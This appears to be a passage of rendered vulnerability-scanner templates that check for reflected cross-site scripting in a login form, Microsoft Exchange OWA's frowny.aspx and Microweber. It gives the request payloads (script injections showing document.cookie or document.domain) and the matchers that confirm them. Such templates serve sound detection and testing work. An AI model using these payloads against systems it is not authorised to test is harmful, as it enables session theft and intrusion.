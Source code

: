 ```
Content-Type: application/x-www-form-urlencoded
Referer: {{Hostname}}/MUP

UPusername=%22%3E%3Cscript%3Ejavascript%3Aalert%28document.cookie%29%3C%2Fscript%3E&UPpassword=%22%3E%3Cscript%3Ejavascript%3Aalert%28document.cookie%29%3C%2Fscript%3E

```
### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. ">\<script>javascript:alert(document.cookie)\</script>

---
# Microsoft Exchange Server - Cross-Site Scripting
## Description
- Microsoft Exchange Server, or OWA, is vulnerable to a cross-site scripting vulnerability in refurl parameter of frowny.asp.
- severity - high
- tags - microsoft,exchange,owa,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};alert(document.domain)//
### Matchers

**Type - word**
- words
    1. alert(document.domain)//&et=ServerError
    2. mail/bootr.ashx
- condition - and

**Type - status**
- status
    1. 500

**Type - word**
- words
    1. text/html
- part - header

---
# Microweber Cross-Site Scripting
## Description
- Microweber prior to 1.2.11 is susceptible to reflected cross-site Scripting via Packagist microweber/microweber.
- severity - high
- tags - microweber,xss,oss
## Requests
- Method - GET